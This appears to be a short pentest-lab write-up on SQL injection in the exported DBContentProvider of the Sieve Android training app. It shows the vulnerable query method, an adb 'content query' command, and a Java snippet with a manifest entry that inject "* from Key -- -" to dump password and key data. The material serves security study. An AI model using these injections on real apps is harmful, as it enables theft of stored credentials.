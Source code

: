 ## SQLi 
in DBContentProvider class this query function lacks validation so it can be exolited by SQLi
```java
    @Override // android.content.ContentProvider
    public Cursor query(Uri in, String[] projection, String selection, String[] selectionArgs, String sortOrder) {
        int type = this.sUriMatcher.match(in);
        SQLiteQueryBuilder queryBuilder = new SQLiteQueryBuilder();
        if (type >= 100 && type < 200) {
            queryBuilder.setTables(PWTable.TABLE_NAME);
        } else if (type >= 200) {
            queryBuilder.setTables(PWTable.KEY_TABLE_NAME);
        }
        return queryBuilder.query(this.pwdb.getReadableDatabase(), projection, selection, selectionArgs, null, null, sortOrder);
    }
```

### from adb shell
```shell
content query  --uri <content URI>  --projection <Payload>
content query  --uri content://com.mwr.example.sieve.DBContentProvider/Passwords  --projection "* from Key -- - "
```
### form another android app
- java class
```java
TextView textView = findViewById(R.id.text);
Uri uri = Uri.parse("<content URI>") ;
try {
  String [] projection = new String[] {"<Payload>"} ;
  Cursor cursor = getContentResolver().query(uri, projection , null, null, null) ;
  textView.setText(DatabaseUtils.dumpCursorToString(cursor));
}catch (Exception e){
  textView.setText(e.toString());
}


// example
TextView textView = findViewById(R.id.text);
Uri uri = Uri.parse("content://com.mwr.example.sieve.DBContentProvider/Passwords") ;
try {
  String [] projection = new String[] {"* from Key -- -"} ;
  Cursor cursor = getContentResolver().query(uri, projection , null, null, null) ;
  textView.setText(DatabaseUtils.dumpCursorToString(cursor));
}catch (Exception e){
  textView.setText(e.toString());
}
```
- AndroidManifest
```xml
<queries>
  <package android:name="<Package name to attack>" ></package>
</queries>
```
